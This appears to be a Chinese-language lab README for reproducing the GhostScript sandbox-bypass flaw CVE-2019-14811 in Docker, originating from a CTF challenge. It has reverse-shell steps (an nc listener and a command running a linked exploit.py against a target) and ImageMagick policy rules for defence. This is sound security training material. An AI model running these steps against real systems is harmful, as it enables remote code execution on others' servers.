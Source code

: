 # GhostScript 沙箱绕过（命令执行）漏洞 (CVE-2019-14811)

本来是 TokyoWesterns CTF 5th 2019 上的[Slack emoji converter Kai](http://slackemoji.chal.ctf.westerns.tokyo/) 题目

参考链接:
- https://access.redhat.com/security/cve/cve-2019-14811
- https://gist.github.com/hhc0null/82bf2e57ac93c1a48115a1b4afcde706

## 漏洞环境
```
docker-compose up -d
```
环境启动后，访问http://your-ip:8080

## 漏洞复现
利用作者提供的[exploit.py](https://gist.github.com/hhc0null/82bf2e57ac93c1a48115a1b4afcde706)

- 1. 在vps上监听`nc -lvp yourvps-port` 
- 2. 执行`python3 exploit.py http://your-ip:8000 yourvps-ip yourvps-port` 并按回车

即可看到反弹的shell
![](./1.png)

## 防御
自己编译最新的源码
网上给出的[policy](https://www.anquanke.com/post/id/170255)
```
<policymap>
<policy domain="coder" rights="none" pattern="PS" />
<policy domain="coder" rights="none" pattern="EPS" />
<policy domain="coder" rights="none" pattern="PDF" />
<policy domain="coder" rights="none" pattern="XPS" />
<policy domain="coder" rights="none" pattern="PCD" />
</policymap>
```

是可以用上面的exploit绕过的

下面这种[policy](https://access.redhat.com/security/cve/cve-2018-16509) 直接禁用了gs, 应该是安全的
```
<policy domain="coder" rights="none" pattern="PS" />
<policy domain="coder" rights="none" pattern="EPS" />
<policy domain="coder" rights="none" pattern="PDF" />
<policy domain="coder" rights="none" pattern="XPS" />
<policy domain="delegate" rights="none" pattern="gs" />
```

或者采用白名单
```
<policy domain="delegate" rights="none" pattern="*" />
  <policy domain="filter" rights="none" pattern="*" />
  <policy domain="coder" rights="none" pattern="*" />
  <policy domain="coder" rights="read|write" pattern="{GIF,JPEG,PNG,WEBP}" />
```